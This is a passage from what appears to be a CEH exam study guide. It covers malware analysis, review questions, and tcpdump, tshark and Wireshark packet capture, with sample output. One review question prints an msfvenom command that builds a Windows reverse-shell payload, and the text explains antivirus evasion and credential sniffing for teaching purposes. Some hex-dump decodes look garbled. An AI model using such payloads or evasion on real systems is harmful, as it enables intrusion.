有时，恶意软件可以是多态的。这意味着它有多种形式。该程序在传播过程中基本上会重写自身，并在过程中进行小修改。这意味着每个副本可能看起来不同。这要求恶意软件对二进制文件进行更改，可能是在传播时写出新的副本。大多数类型的恶意软件都可以是多态的，但这需要恶意软件作者具备一定技能。他们需要知道如何对程序副本进行更改，而不会导致无法运行的可执行文件。

恶意软件可以使用打包器和加密器，使防病毒软件难以检测它。使用不同的打包方案，或许是压缩得更厉害或不那么厉害，可能会导致文件看起来不同，因为数据区似乎不同。加密可以使用不同的密钥，文件看起来也会不同。

即使在防病毒软件或端点检测查看行为的情况下，释放的文件也可能具有随机生成的名称。注册表键和值也是如此。将文件写入和注册表值作为操作并不特别麻烦，因此这些保护解决方案不能仅识别这些操作。常见操作会产生太多警报。它们需要更具体的细节来查找。这是已安装防病毒解决方案的系统也可能被恶意软件感染的原因之一。

## 总结

恶意软件是信息技术行业的一个严重问题。它同样影响企业和个人。恶意软件作者通常占据上风。如果他们想掌握局面，就可以始终领先于防病毒程序。这意味着他们可以在任何人能够防范之前，将恶意软件植入系统。他们通常在新恶意软件方面占据先机，并且还可以不断修改恶意软件，使其更难以检测。

这时就需要进行恶意软件分析。有两种分析类型。第一种是静态分析，它来自查看恶意软件的属性以及实际代码。你可以查看文件的组成，包括可移植可执行文件 (PE) 文件各节的数量和大小。静态分析还可能告诉你是否拥有打包的可执行文件。了解这一点的方法之一是查看应用程序的入口点。入口点在编译时确定，基于提供给程序的地址空间。该地址可以标记，而不仅仅是一个地址。如果你看到名为类似 UPX 的入口点，你就会知道它已被打包，因为 UPX 是常见的打包器。反汇编器对于查看代码以及查看可执行文件的一些属性很有用。

另一种分析类型是动态分析，这意味着运行程序并查看恶意软件做了什么。这必须小心进行，因为你既不想感染自己的机器，也不想让网络上的其他系统面临潜在感染风险。在虚拟机中运行恶意软件可以在这里提供帮助，尽管有些恶意软件会知道自己在虚拟机中运行而不完全部署。你可以使用沙箱环境运行程序，并且有些沙箱会自动为你进行分析。其中之一是 Cuckoo Sandbox，它可以安装在你自己的硬件上，或者网上也有一些公开可用的安装。使用调试器可以帮助进行动态检查，因为你可以控制程序的运行。

在测试目标组织的过程中，你可能会想使用恶意软件。由于你在合乎道德地行事，你不想使用真正具有恶意目的的实际恶意软件。不过，你可能会想安装后门，或测试运维人员是否会检测到恶意软件的存在。你可以通过编写自己的恶意软件来做到这一点，同时考虑目标平台和架构以及其他要求。Python 是一种流行的编程语言，但 Windows 系统可能没有安装 Python 解释器，不像 MacOS 或 Linux 系统那样。不过，Windows 会安装 PowerShell。使用 C 等语言编写的编译程序通常可以工作，因为程序的所有元素都可以编译在内，而不是依赖安装库。

恶意软件通常会有关联的基础设施。你可能听说过僵尸网络。僵尸网络是感染系统的集合，它们拥有用于告诉机器人端点应该做什么的命令和控制系统。即使没有完整的命令和控制系统网络，也可能至少有一个系统可供感染系统连接回去，以便攻击者进行远程控制。之所以这样做，是因为防火墙通常允许出站流量而入站流量会被阻止。因此，最好从网络内部发起连接。当从内部发起连接时，内部系统必须有服务器可供连接。即使没有很多系统，这也仍然是基础设施。


## Review Questions

You can find the answers in the Appendix.

- 1. In a botnet, what are the systems that tell individual bots what to do called?
  - A. C2 servers
  - B. IRC servers
  - C. HTTP servers
  - D. ISC2 servers

- 2. What is the primary difference between a worm and a virus?
  - A. A worm uses polymorphic code.
  - B. A virus uses polymorphic code.
  - C. A worm can self-propagate.
  - D. A virus can self-propagate.

- 3. What is one advantage of static analysis over dynamic analysis of malware?
  - A. Malware is guaranteed to deploy.
  - B. Dynamic analysis is untrustworthy.
  - C. Static analysis limits your exposure to infection.
  - D. Static analysis can be run in virtual machines.

- 4. What would you use VirusTotal for?
  - A. Checking your system for viruses
  - B. Endpoint protection
  - C. As a repository of malware research
  - D. Identifying malware against antivirus engines

- 5. What are two sections you would commonly find in a portable executable file?
  - A. Text and binary
  - B. Binary and data
  - C. Addresses and operations
  - D. Text and data

- 6. What could you use to generate your own malware?
  - A. Empire
  - B. Metasploit
  - C. Rconsole
  - D. IDA Pro

- 7. What is the purpose of a packer for malware?
  - A. To obscure the actual program
  - B. To ensure that the program is all binary
  - C. To compile the program into a tight space
  - D. To remove null characters

- 8. What is the primary purpose of polymorphic code for malware programs?
  - A. Efficiency of execution
  - B. Propagation of the malware
  - C. Antivirus evasion
  - D. Faster compilation

- 9. What would be one reason not to write malware in Python?
  - A. Python interpreter is slow.
  - B. Python interpreter may not be available.
  - C. Library support is inadequate.
  - D. Python is a hard language to learn.

- 10. What would you use Cuckoo Sandbox for?
  - A. Static analysis of malware
  - B. Malware development
  - C. Dynamic analysis of malware
  - D. Manual analysis of malware

- 11. If you wanted a tool that could help with both static and dynamic analysis of malware, which would you choose?
  - A. Cutter
  - B. IDA
  - C. PE Explorer
  - D. MalAlyzer

- 12. What is the purpose of using a disassembler?
  - A. Converting opcodes to mnemonics
  - B. Converting mnemonics to opcodes
  - C. Translating mnemonics to operations
  - D. Removing the need for an assembler

- 13. What does the malware that is referred to as a dropper do?
  - A. Drops antivirus operations
  - B. Drops CPU protections against malicious execution
  - C. Drops files that may be more malware
  - D. Drops the malware into the Recycle Bin

- 14. Why would you use an encoder when you are creating malware using Metasploit?
  - A. To compile the malware
  - B. To evade antivirus
  - C. To evade user detection
  - D. To compress the malware

- 15. If you were to see the following command in someone's history, what would you think had happened?

```
msfvenom -i 5 -p windows/x64/shell_reverse_tcp -o program
```

  - A. A poison pill was created.
  - B. A malicious program was generated.
  - C. Existing malware was encoded.
  - D. Metasploit was started.

- 16. What is the difference between a virus and ransomware?
  - A. Ransomware may be a virus.
  - B. Ransomware includes Bitcoins.
  - C. Ransomware is only generated in Russia.
  - D. A virus only runs on Windows systems.

- 17. Why would someone use a Trojan?
  - A. It acts as malware infrastructure.
  - B. It evades antivirus.
  - C. It pretends to be something else.
  - D. It's polymorphic.

- 18. Which of these tools would be most beneficial when trying to dynamically analyze malware?
  - A. Cutter
  - B. OllyDbg
  - C. Metasploit
  - D. AV-Test

- 19. Which end of a client/server communication goes on the infected system if it is communicating with infrastructure? __________

- 20. Which of these would be a reason why it is best for communications to originate from inside the infected network?
  - A. Antivirus
  - B. Virtual machines
  - C. Intrusion detection
  - D. Firewall

# Chapter 9

# Sniffing


THE FOLLOWING CEH EXAM TOPICS ARE COVERED IN THIS CHAPTER:

- Communication on protocols
- Network/wireless sniffers
- TCP/IP networking


It used to be that sniffing was a very expensive proposition. The reason is that there was a special network interface required to be able to capture the packets. On top of that was the software. If you wanted to capture packets, you needed special hardware and software and there weren't many companies that could sell you that. Then came consumer network interfaces that didn't cost a fortune and could forward all packets up through the interface into the operating system. Fortunately, there was a piece of software called Ethereal. Suddenly, getting your packets captured was free.

Now there are several ways to capture packets. The most common software now to capture packets is freely available. Some of the software is command-line oriented, which is really helpful if you are connected to a system over SSH or other mechanisms that only provide a text-oriented interface. This sort of software is not great for analysis if you need to dig into the packet content and see entire streams, not to mention if you want to go deeper with your analysis and get statistics and graphs. Fortunately, there is software for that purpose. It was once called Ethereal, but it’s currently called Wireshark and it has a lot of capabilities to enable deep analysis of the packets.

A challenge we have today is that most networks are switched. This means the network is essentially segmented. Only packets that are addressed to you in some way will get sent to your network interface. Since we may have the ability to see the data anyway, through the applications transmitting the messages, packet capture isn’t nearly as interesting, to just look at messages to and from the device you are on. We need ways to get the rest of the traffic on the network to a system we have control of. Fortunately, there are several ways we can do that. We can even take a targeted approach at it, determining exactly which systems we want to get traffic from.

We also need to deal with encryption. Web traffic today generally defaults to using Transport Layer Security (TLS), which encrypts all messages. This is an issue that is challenging, since one of the predominant protocols becomes obscured to us. Fortunately, there are some ways around that.

## Packet Capture

Why is packet capture so important? If you can get to the right place in the network to be able to capture the data, you can potentially grab usernames and passwords or other authentication/authorization traffic. An attacker could potentially grab credit card information or other personally identifiable information (PII) that is marketable. Depending on the organization, there could also be personal health information (PHI). There may be other information available on the network that could be useful as you are maneuvering through your client's assets.

Packet capturing is the process of acquiring network traffic that is addressed to systems other than your own. You can certainly capture packets that are only addressed to your system, but that’s not especially interesting since you’re already getting those. Network interface cards (NICs) are programmed to only forward frames up to the operating system whose destination MAC address is either the MAC address of the NIC or the broadcast MAC address (ff:ff:ff:ff:ff:ff). In order to force the NIC to forward all messages up to the operating system, the card has to be put into what is called promiscuous mode. This just gets the NIC to forward all messages up, behaving promiscuously.

> Each layer of the Open Systems Interconnection (OSI) model has a different name for the chunk of data associated with it. This is called the protocol data unit (PDU). At layer 2, where we are grabbing the messages off the network, since they include the layer 2 header with MAC addresses, the PDU is called a frame. Technically, we are capturing frames. It’s called packet capturing, though. A packet is the PDU for layer 3, which is the IP layer. At layer 4, TCP’s PDU is a segment, while UDP’s is a datagram. For our purposes, I’ll be talking about packet capturing unless there is something related to the MAC address or the NIC. Then I’ll be using the term frame.

Once the operating system, really the networking stack in the operating system, has the frames, they can be intercepted by a piece of software. Once the software has the message, packet capturing software will parse the message, extracting information out of each protocol header. A command-line program, like tcpdump, which we will be looking at, may display information out of the different headers. You could also be using a graphical user interface (GUI), which has more options for how to display the header data, as well as the payload data.

Headers are the fields that are specific to the protocol. They provide details specific to the protocol—instructions, as it were, to the protocol on how to behave. The data that is being carried from one endpoint to another is called the payload. This payload may be broken up between multiple packets and certainly multiple frames. Fragmentation may be forced by the maximum transmission unit (MTU) at layer 2 (the frame layer). This is one reason it’s easier to use a GUI-based program to analyze packets, even if we are capturing them with another tool. A program like Wireshark helps to make packet analysis much easier than if we were trying to review all the details on the command line.

## tcpdump

For decades now, Unix systems have had programs that could capture packets. The program tcpdump was first written in the late 1980s and was later ported to other Unix implementations. It is a fairly easy to use but also very powerful utility that was standardized in


20世纪90年代末，将所有各异的实现汇集在一起。你会发现此工具可在大多数（如果不是全部）Linux 发行版以及不同的 Berkeley Software Distribution (BSD) 发行版上使用。它是一个命令行程序，可用于让你了解网络上发生的情况，但也可以用于捕获流量并将该流量存储在以后可以打开的文件中。

在以下代码清单中，你可以看到运行 tcpdump 所需的内容。这是在 Kali Linux 系统上完成的。这就是你需要的全部内容。你可以看到输出显示了每个已捕获数据包的大部分基本头信息。这就是它被称为数据包捕获的一个原因。你可能会注意到，所有第 2 层信息都已被删除。输出中你看到的全部是第 3 层信息，以及少量第 4 层信息。tcpdump 还有帮助地指示了一些应用层流量的细节。你可以看到，首先，有 DNS 请求。有一个从 IP 地址查找主机名的操作。这是一个指针 (PTR) 记录，有时也称为反向查找。

## 未带参数的 tcpdump

```
root@quiche:~# tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:48:25.045517 ARP, Request who-has testwifi.here tell localhost.lan, length 46
18:48:25.046237 IP quiche.lan.39988 > testwifi.here.domain: 58469+ PTR? 1.86.168.192.in-addr.arpa. (43)
18:48:25.048456 IP testwifi.here.domain > quiche.lan.39988: 58469* 1/0/0 PTR testwifi.here. (95)
18:48:25.048594 IP quiche.lan.58395 > testwifi.here.domain: 35036+ PTR? 22.86.168.192.in-addr.arpa. (44)
18:48:25.050179 IP testwifi.here.domain > quiche.lan.58395: 35036* 1/0/0 PTR localhost.lan. (97)
18:48:25.050311 IP quiche.lan.56311 > testwifi.here.domain: 38920+ PTR? 57.86.168.192.in-addr.arpa. (44)
18:48:25.051758 IP testwifi.here.domain > quiche.lan.56311: 38920* 1/0/0 PTR quiche.lan. (94)
18:48:25.458252 IP6 fe80::3847:ce36:d1cd:7729.61478 > ff02::c:1900: UDP, length 146
18:48:25.458501 IP quiche.lan.56653 > testwifi.here.domain: 33204+ PTR?
c.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.2.0.f.f.ip6.arpa. (90)
18:48:25.467712 IP testwifi.here.domain > quiche.lan.56653: 33204 NXDomain 0/1/0 (154)
18:48:25.467781 IP quiche.lan.44374 > testwifi.here.domain: 6986+ PTR?
9.2.7.7.d.c.1.6.3.e.c.7.4.8.3.0.0.0.0.0.0.0.0.0.0.0.0.8.e.f.ip6.arpa. (90)
18:48:25.488710 IP testwifi.here.domain > quiche.lan.44374: 6986 NXDomain 0/1/0 (154)
```

tcpdump 的一个问题，如你在前面的代码中所见，是默认情况下，它将所有数字地址解析为更人性化的名称。主机名和服务端口也都从数字地址解析为名称。例如，第二行显示目标地址是 testwifi.here，端口称为 domain。tcpdump 中列出的完整地址为 w.x.y.z.p，其中 w.x.y.z 是 IP 地址，p 是端口号。因此，当我们看到 testwifi.here.domain 时，testwifi.here 是从 IP 地址解析得到的主机名，而 domain 是服务端口。这告诉我们这是一个 DNS 请求。你看到的许多 DNS 请求都是由于进入的数据包所致。你会看到 DNS 请求出现在数据包之前，因为要显示数据包，必须发出 DNS 请求并等待其返回。

你可以轻松更改此行为，因为 DNS 请求可能会非常嘈杂，很难从中筛选出你真正想看到的流量。只需在命令行中添加 -n 即可实现。最终你会得到类似于这里所示的内容。

## **禁用名称解析的 tcpdump**

```
root@quiche:~# tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
20:42:16.326940 IP 192.168.86.210.40608 > 239.255.255.250.1900: UDP, length 558
20:42:16.587114 IP 192.168.86.210.40608 > 239.255.255.250.1900: UDP, length 546
20:42:16.703469 IP 192.168.86.24.5353 > 224.0.0.251.5353: 0 [5a] [5q] [lau] PTR (QM)? _homekit._tcp.local. PTR (QM)? _companion-link._tcp.local. TXT (QM)? 9EA05B22-BBCC-5F9C-9C4B-10A753BDAAD9._homekit._tcp.local. TXT (QU)? milobloom (2)._companion-link._tcp.local. PTR (QM)? _sleep-proxy._udp.local. (282)
20:42:16.704314 IP6 fe80::10ba:d862:9623:e420.5353 > ff02::fb.5353: 0 [5a] [5q] [lau] PTR (QM)? _homekit._tcp.local. PTR (QM)? _companion-link._tcp.local. TXT (QM)? 9EA05B22-BBCC-5F9C-9C4B-10A753BDAAD9._homekit._tcp.local. TXT (QU)? milobloom (2)._companion-link._tcp.local. PTR (QM)? _sleep-proxy._udp.local. (282)
20:42:16.832644 IP 192.168.86.210.40608 > 239.255.255.250.1900: UDP, length 536
20:42:16.845825 IP 192.168.86.46.5353 > 224.0.0.251.5353: 0*- [0q] 1/0/1 (Cache flush) TXT "si=AAB36E20-CDDB-4E60-EBEE-1BC0A3ABE82D" (141)
20:42:16.846030 IP6 fe80::1cbd:790c:b9f2:ae0b.5353 > ff02::fb.5353: 0*- [0q] 1/0/1 (Cache flush) TXT "si=AAB36E20-CDDB-4E60-EBEE-1BC0A3ABE82D" (141)
20:42:16.885944 IP 192.168.86.49.5353 > 224.0.0.251.5353: 0*- [0q] 1/0/1 (Cache flush) TXT "rpBA=AC:C5:14:0E:E0:35" "rpAD=c=77102094021" "rpHI=f27b7868fdf6f" "rpHN=ce75eb6a989e" "rpVr=164.16" "rpHA=ae260764c13d" (192)
20:42:16.885964 IP6 fe80::1882:675c:7bdd:2de3.5353 > ff02::fb.5353: 0*- [0q] 1/0/1 (Cache flush) TXT "rpBA=AC:C5:14:0E:E0:35" "rpAD=c=77102094021" "rpHI=f27b7868fdf6f" "rpHN=ce75eb6a989e" "rpVr=164.16" "rpHA=ae260764c13d" (192)
```

我们看到的大部分内容都相当简单直接，尽管不一定特别有用。例如，第一个捕获的数据包是一个 IP 数据包。它在时间戳后面告诉我们这一点。然后我们看到源地址，后跟 >，显示方向，然后是目标地址。这告诉我们该数据包是 UDP，长度为 558。我们还可以知道，该 UDP 数据报是简单服务发现协议 (SSDP)，属于通用即插即用 (UPnP) 的一部分。即使没有 tcpdump 的帮助，我们也可以通过查询目标端口号来判断这一点，如果我们碰巧不知道 1900 是 UPnP 端口。该数据报的源端口只是一个临时端口，由操作系统在消息发送到网络时分配。


你可能已经注意到，登录到系统的用户是 root。由于我们需要在硬件中设置一个参数，因此必须以管理员用户身份运行 tcpdump。在 Linux 上，这是 root。在 Windows 上，这将是 Administrators 组或另一组具有访问网络硬件类似权限的用户。

我们不必满足于默认的详细程度。我们还可以请求更多有关已捕获数据包的详细信息。tcpdump 提供多个详细程度级别供我们请求。为了获取更详细的输出，我们在命令行中添加 -v。如果想要更多细节，则使用 -vv，然后是 -vvv。在以下清单中，你可以看到使用 -vv 作为命令行参数的 tcpdump 捕获，以获取更多详细信息。此外，还有一个参数将快照长度设置为 0。实际上，这将每个数据包的字节数设置为 262,144，即默认设置。事情并非总是如此。过去快照长度非常短，因此要获取完整数据包，你必须告诉 tcpdump 不要限制捕获的字节数。

## tcpdump 带附加详细程度的捕获

```
root@quiche:~# tcpdump -vv -s 0
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
10:40:27.047708 IP (tos 0x0, ttl 1, id 48781, offset 0, flags [DF], proto UDP (17), length 228)
    samsung.lan.8001 > st-routers.mcast.net.8001: [udp sum ok] UDP, length 200
10:40:27.048568 IP (tos 0x0, ttl 64, id 64646, offset 0, flags [DF], proto UDP (17), length 68)
    quiche.lan.45867 > testwifi.here.domain: [bad udp cksum 0x2dcd -> 0x690e!] 26697+ PTR?
    7.0.0.224.in-addr.arpa. (40)
10:40:27.068536 IP (tos 0x0, ttl 64, id 16931, offset 0, flags [DF], proto UDP (17), length 102)
    testwifi.here.domain > quiche.lan.45867: [udp sum ok] 26697 q: PTR? 7.0.0.224.in-addr.arpa.
    1/0/0 7.0.0.224.in-addr.arpa. PTR st-routers.mcast.net. (74)
10:40:27.068803 IP (tos 0x0, ttl 64, id 64650, offset 0, flags [DF], proto UDP (17), length 72)
    quiche.lan.46802 > testwifi.here.domain: [bad udp cksum 0x2dd1 -> 0x7eb6!] 42424+ PTR?
    22.86.168.192.in-addr.arpa. (44)
10:40:27.070769 IP (tos 0x0, ttl 64, id 16932, offset 0, flags [DF], proto UDP (17), length 123)
    testwifi.here.domain > quiche.lan.46802: [udp sum ok] 42424* q: PTR? 22.86.168.192.in-addr.arpa.
    1/0/0 22.86.168.192.in-addr.arpa. PTR samsung.lan. (95)
10:40:27.070930 IP (tos 0x0, ttl 64, id 64651, offset 0, flags [DF], proto UDP (17), length 71)
    quiche.lan.49820 > testwifi.here.domain: [bad udp cksum 0x2dd0 -> 0x05f9!] 46654+ PTR?
    1.86.168.192.in-addr.arpa. (43)
10:40:27.072770 IP (tos 0x0, ttl 64, id 16933, offset 0, flags [DF], proto UDP (17), length 123)
    testwifi.here.domain > quiche.lan.49820: [udp sum ok] 46654* q: PTR? 1.86.168.192.in-addr.arpa.
    1/0/0 1.86.168.192.in-addr.arpa. PTR testwifi. (95)
10:40:27.072857 IP (tos 0x0, ttl 64, id 64652, offset 0, flags [DF], proto UDP (17), length 72)
    quiche.lan.55520 > testwifi.here.domain: [bad udp cksum 0x2dd1 -> 0x3ef4!] 48745+ PTR?
    57.86.168.192.in-addr.arpa. (44)
10:40:27.170687 STP 802.1d, Config, Flags [none], bridge-id 7000.2c:08:8c:1c:3b:db.8001, length 43
    message-age 0.00s, max-age 20.00s, hello-time 1.00s, forwarding-delay 4.00s
    root-id 7000.2c:08:8c:1c:3b:db, root-pathcost 0
```

使用默认 tcpdump 设置时，你会在与数据包相关的地方获得 IP 头信息——这意味着实质字段已设置。当你添加更多详细程度时，你会获得关于第 4 层头的详细信息。如果你查看任何 UDP 数据包，你会看到

## 数据包的十六进制表示

有一条说明校验和没问题，意味着 tcpdump 对消息进行了校验和计算，得到的值与数据包中的值相同。对于 TCP 段，你会看到类似序列号和确认号以及设置的标志等细节。

到目前为止，我们看到的都是协议头。还没有任何有效载荷数据。我们可以使用 -X 参数查看有效载荷。这会对消息的有效载荷执行十六进制转储。十六进制（hex）转储以十六进制表示显示每个字节。它还提供每个字节的 ASCII 解码。这意味着如果 ASCII 值是可打印字符，你会在右侧看到该可打印字符。即使在看到可打印字符的情况下，该字节对所用协议的意义可能并非该字符。它可能只是该字节的数值。

```
root@quiche:~# tcpdump -i eth0 -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
10:49:35.174771 STP 802.1d, Config, Flags [none], bridge-id 7000.2c:08:8c:1c:3b:db.8001, length 43
	0x0000:  0000 0000 0070 002c 088c 1c3b db00 0000  .....P...,;.....
	0x0010:  0070 002c 088c 1c3b db80 0100 0014 0001  .P...,;.........
	0x0020:  0004 0000 0000 0000 0000 00              ............
10:49:35.578186 IP samsung.lan.8001 > st-routers.mcast.net.8001: UDP, length 200
	0x0000:  4500 00e4 c563 4000 0111 bcdf c0a8 5616  E...@c......V.
	0x0010:  e000 0007 1f41 1f41 00d0 9a56 7b22 6461  ....A.A..V{”da
	0x0020:  7461 223a 7b22 7631 223a 7b22 7572 6922  ta:”{”v1”:{”uri”
	0x0030:  3a22 6874 7470 3a2f 2f31 3932 3231 3638  :”http://192.168
	0x0040:  2e38 3632 3232 382e 3030 3031 3a2f 7373  .86.22.8001/ss1
	0x0050:  762e 302f 322e 3264 3332 3a66 222c 3a22  v0/2.2d32:f6”,:”
	0x0060:  223a 2268 7474 7073 3a2f 2f31 3932 3231  ”:”https://192.16
	0x0070:  2e38 3632 3232 3232 382e 3030 3031 3237  8.86.22.8001/api
	0x0080:  2f76 322f 7761 7463 642c 3232 762e 322f  /v2/”)},”remote”
	0x0090:  3a22 3131 302e 302e 3262 322e 3442 2375  :”1.0”,”sid”:“uu
	0x00a0:  6964 3a32 3232 3359 3232 6244 6462 6561  iid:b2b9bdfa-8b03
	0x00b0:  3234 3334 6264 3931 3931 3533 3232 3234  424-9150-45244
	0x00c0:  6338 3132 3632 3832 3032 322c 3734 3463  c81bbb0”, “ttl”:8
	0x00d0:  3030 3032 3232 3734 3739 3730 3232 3264  000,”type”:“aliv
	0x00e0:  3635 3232 7464 6161                    e”).
```

## 数据包的十六进制表示（续）

```
10:49:35.599038 IP testwifi.here.domain > quiche.lan.60408: 10006 1/0/0 PTR st-routers.mcast.net. (74)
0x0000: 4500 0066 4230 4000 4011 cacb c0a8 5601 E..fB@.@....V.
0x0010: c0a8 5639 0035 ebf8 0052 c086 2716 8180 ..V9.5..R...'..
0x0020: 0001 0001 0000 0000 0137 0130 0130 0332 .........7.0.0.2
0x0030: 3234 0769 6e2d 6164 6472 612e 7277 7000 24.in-addr.arpa.
0x0040: 000c 0001 c00c 000c 0001 0000 0bbc 0016 ................
0x0050: 0a73 742d 726f 7574 6572 732e 6d63 6173 .st-routers.mcas
0x0060: 746f 3e65 7400 t.net.
```

命令行中你还会看到 -i eth0。这告诉 tcpdump 在哪个接口上捕获数据包。如果你不指定，tcpdump 会使用默认接口。在大多数情况下，这就是系统中的唯一接口。不过，有些系统有多个接口。你可能希望在非默认接口上进行捕获。这意味着你需要告诉 tcpdump 使用哪个接口。这里你看不到的是第 4 层头部的任何细节。这是因为未包含 -v 参数，表示我们想要更详细的输出。你可以在启动 tcpdump 时添加详细程度参数。你会得到数据包的有效载荷以及第 4 层信息。

到目前为止，我们一直在命令行中查看 tcpdump 输出。我们不必在那里查看，尤其是因为这可能很困难。在繁忙的网络上，你会看到消息只是飞速流过，而无法跟上它们。将数据包写入文件可能更好。我们可以使用命令行上的 -w 来做到这一点，如下一个清单所示。这告诉 tcpdump 将数据包写入指定文件。它以数据包捕获（PCAP）文件格式这样做，该格式包括有关数据包捕获会话的元数据。你在这里看到的是之前没看到的东西，因为你之前只看到了捕获的顶部。为了停止捕获，你必须使用 Ctrl+C (^C) 终止 tcpdump。

## 使用 tcpdump 将数据包写入文件

```
root@quiche:~# tcpdump -w file.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C116 packets captured
119 packets received by filter
0 packets dropped by kernel
```

文件写入后，我们有几种选择。任何可以解析 PCAP 文件的程序都可以打开我们写入的文件。我们也可以使用 tcpdump 打开文件并显示内容。为此，我们会使用 -r 参数。这会读回文件，我们可以提供其他命令行参数来告诉 tcpdump 如何显示输出。

## tshark

当然，tcpdump 不是唯一可用于从命令行捕获数据包的程序。我们稍后将介绍的 Wireshark 程序中包含了 tshark 程序，它也可用于捕获数据包。在下一个代码清单中，你会看到该程序在没有任何参数的情况下运行。tshark 有帮助地告诉我们，以 root 身份运行该程序可能很危险。之所以说这个，是因为曾有数据包捕获程序受到漏洞影响的案例，其中精心构造的数据包可能导致运行任意代码。这意味着攻击者可能导致 tshark 被攻破，从而运行攻击者提供的代码。不过，除此之外，这看起来很像 tcpdump 的输出。归根结底，可显示的数据量有限，而除此之外，捕获数据包的人真正想看到的数据还有更多。

### 使用 tshark 捕获流量

```
root@quiche:~# tshark
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:32: dofile has been disabled due to running Wireshark as
superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as
an unprivileged user.
Capturing on 'eth0'
 1 0.000000000 SamsungE_94:ba:57 → Broadcast ARP 60 Who has 192.168.86.1? Tell 192.168.86.22
 2 0.196881172 Humax_1c:3b:db → Spanning-tree-(for-bridges)_00 STP 60 Conf. Root =
28672/0/2c:08:8c:1c:3b:db Cost = 0 Port = 0x8001
 3 0.346721553 192.168.86.22 → 224.0.0.7 UDP 242 8001 → 8001 Len=200
 4 0.941773993 192.168.86.57 → 192.168.86.26 SSH 206 Server: Encrypted packet (Len=140)
 5 0.941825969 192.168.86.57 → 192.168.86.26 SSH 246 Server: Encrypted packet (Len=180)
 6 0.966582385 192.168.86.57 → 192.168.86.26 SSH 182 Server: Encrypted packet (Len=116)
 7 1.033015866 192.168.86.57 → 192.168.86.26 TCP 182 [TCP Retransmission] 22 → 64631 [PSH, ACK]
Seq=321 Ack=1 Win=315 Len=116 TSval=4284989880 TSecr=1235189447
```

仅仅因为有一些你可能想看到的默认项，并不意味着有人不希望对显示的内容更加细致。tshark 在这方面完胜 tcpdump，这也是使用 tshark 而非 tcpdump 的主要原因。在下一个代码清单中，你会看到如何选择要显示的单个字段的示例。在此示例中，我们正在打印帧号、IP 地址、IP 服务类型字段和 IP 生存时间字段。


## 使用 tshark 打印字段

```
root@quiche:~# tshark -Tfields -e frame.number -e ip.src -e ip.dst -e ip.tos -e ip.ttl
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:32: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.
```

正在捕获 'eth0'

| | | | |
|---|---|---|---|
| 1 | 192.168.86.26 | 192.168.86.57 | 64 |
| 2 | | | |
| 3 | 192.168.86.57 | 192.168.86.26 | 64 |
| 4 | 192.168.86.26 | 192.168.86.57 | 64 |
| 5 | 192.168.86.22 | 224.0.0.7 | 1 |
| 6 | 192.168.86.57 | 192.168.86.26 | 64 |
| 7 | 192.168.86.57 | 192.168.86.26 | 64 |
| 8 | 192.168.86.57 | 192.168.86.26 | 64 |
| 9 | 192.168.86.26 | 192.168.86.57 | 64 |
| 10 | 192.168.86.26 | 192.168.86.57 | 64 |
| 11 | 192.168.86.26 | 192.168.86.57 | 64 |
| 12 | | | |
| 13 | | | |
| 14 | 192.168.86.57 | 192.168.86.26 | 64 |
| 15 | 192.168.86.57 | 192.168.86.26 | 64 |
| 16 | 192.168.86.57 | 192.168.86.26 | 64 |
| 17 | 192.168.86.57 | 192.168.86.26 | 64 |
| 18 | 192.168.86.57 | 192.168.86.26 | 64 |
| 19 | 192.168.86.57 | 192.168.86.26 | 64 |
| 20 | 192.168.86.57 | 192.168.86.26 | 64 |
| 21 | 192.168.86.57 | 192.168.86.26 | 64 |

可用的字段有数百个。从前面的示例中可以看出，您可以继续使用 -e 标志添加字段。其余大部分命令行标志与 tcpdump 中使用的相同。您可以设置快照长度、选择接口，还可以写出文件。这些都使用与之前从 tcpdump 中看到的相同参数。

tshark 程序随 Wireshark 包一起安装。无论您在哪个平台上安装 Wireshark，默认都会安装 tshark 和其他命令行程序。但是，Windows 上没有 tcpdump。您需要找到 windump 并安装它。这是 tcpdump 的移植版，用于在 Windows 平台上运行。

## Wireshark

Wireshark 是一个基于 GUI 的数据包捕获程序。如前所述，它附带一些命令行程序。使用 Wireshark 有很多优势。首先，它让我们能够轻松查看数据包，并在完整的捕获中移动。与 tcpdump 和 tshark 不同，我们在 Wireshark 中看到整个网络协议栈，从技术上讲，这使得我们捕获的是帧而不是数据包。Wireshark 还让我们能够轻松滚动查看所有捕获帧的列表。图 9.1 显示了捕获会话中的帧列表。与 tcpdump 类似，我们得到的是每个帧的本质摘要。

### 图 9.1 Wireshark 帧列表


这些列是可配置的，包括帧号、从捕获开始的相对时间、地址、协议、帧长度，然后是一个信息列。我们获得的信息是每个帧的摘要。这与 tcpdump 有点类似，tcpdump 中有一个简短的摘要。Wireshark 在摘要中提供了更多详细信息。这些都是 Wireshark 从数据包和通信流中推断出的所有信息。

Wireshark 不仅提供帧列表让您查看谁在与谁通信，还提供完整的协议解码。图 9.2 中有两个协议被展开。Wireshark 知道如何解码您向其提供的几乎任何协议。图 9.2 中显示的是两种常见协议（IP 和 TCP）的简单解码。在解码中，每个字段都被拆分出来，不仅提供字段名和值，还提供含义。例如，如果您只查看包含 IP 版本和头部长度的字节，您会看到 0x45。这是字节值，但该字节在两个半字节（4 字节值）中包含两个独立的数据片段。第一个是版本，即 4。第二个是头部长度。您会看到 5，如果您不太了解 IP 协议，可能会认为长度是 5。Wireshark 知道您需要将值 5 乘以 4，因为该字段中的值实际上表示 32 位（4 字节）双字的数量。因此，Wireshark 会显示头部长度为 20。

### 图 9.2 协议详细信息

```
Internet Protocol Version 4, Src: 192.168.86.26, Dst: 52.109.88.39
    0100 .... = Version: 4
